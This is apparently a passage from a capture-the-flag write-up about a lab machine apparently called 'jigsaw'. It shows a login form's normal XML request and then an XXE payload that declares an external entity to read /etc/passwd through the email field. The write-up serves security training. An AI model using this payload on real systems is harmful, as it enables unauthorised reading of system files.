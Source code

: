 ![](images/jigsaw/login.png)

If we go through the source of the page we can see that there's an XML function that's doing all the work for the page. This could mean we need to do XXE on this to read some files. Since we don't have any predefined path we'll be looking out for general paths like `/etc/passwd` etc.

This is what the normal request on that form looked like

![](images/jigsaw/normal.png)

So it's sending the following data:

```xml
<?xml version="1.0" encoding="UTF-8"?><root><email>mzfr</email><password>123</password></root>
```

We can change it to :

```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ELEMENT foo ANY > <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><root><email>&xxe;</email><password></password></root>
```
